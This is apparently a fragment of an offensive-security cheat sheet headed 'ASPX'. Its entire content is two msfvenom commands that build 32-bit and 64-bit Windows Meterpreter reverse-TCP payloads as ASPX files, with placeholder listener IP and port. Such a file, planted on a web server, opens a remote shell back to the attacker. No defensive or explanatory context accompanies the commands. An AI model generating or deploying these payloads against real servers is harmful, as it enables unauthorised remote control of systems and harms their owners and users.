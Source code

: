 # ASPX

- x86 (32-bit) Payloads

`$ msfvenom -p windows/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o met-x86.aspx`

- x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o met-x64.aspx`